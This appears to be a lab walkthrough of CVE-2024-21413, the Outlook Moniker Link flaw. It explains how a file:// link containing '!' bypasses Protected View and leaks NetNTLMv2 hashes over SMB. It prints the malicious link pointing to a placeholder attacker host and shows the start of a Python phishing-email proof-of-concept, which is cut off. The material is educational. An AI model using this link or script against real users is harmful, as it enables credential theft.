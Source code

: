 **Malicious example (bypasses protection):**
``` bash
<a href="file://ATTACKER_MACHINE/test!exploit">Click me</a>
```
**Notes:**
- The remote share does not need to exist. An authentication attempt still happens.
- That attempt leaks the Windows NetNTLMv2 hash to the attacker’s SMB listener.
## Why People Mention RCE

- Moniker Links use COM (Component Object Model) under the hood.
- That opens a path to RCE in theory; however, there is no public PoC for RCE specifically for this CVE at the time described.
- The credential leak vector is the more concrete, widely discussed impact.
## Quick Summary (TL;DR)
- Outlook supports Moniker Links like file://....
- Protected View should block risky external triggers.
- Adding ! in the file:// link can bypass that protection.
- Clicking the link makes Outlook try SMB auth and leak NetNTLMv2 credentials.
- Severity is Critical (9.8); treat and patch accordingly.
---
# CVE-2024-21413 — Outlook Moniker Link Exploit (PoC Walkthrough)

## Simple Explanation
This attack shows how an attacker can send a **malicious email** with a **Moniker Link** to a victim.  
When the victim clicks the link in Outlook, their computer will **try to access a file from the attacker’s machine**, and in doing so, their **netNTLMv2 hash (credentials)** gets leaked to the attacker.



## Steps in the Attack

### 1. Sending the Malicious Email
- We write a small **Python script** to send an email.
- The email contains a **Moniker Link** like:
file://ATTACKER_MACHINE/test!exploit
- The `!exploit` part is what **bypasses Outlook’s Protected View**.
- When the victim clicks, Outlook tries to connect to the attacker’s machine over **SMB** and leaks credentials.

### Example PoC Script (exploit.py)
```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm'
receiver_email = 'victim@monikerlink.thm'
password = input("Enter your attacker email password: ")

html_content = """\
<!DOCTYPE html>
```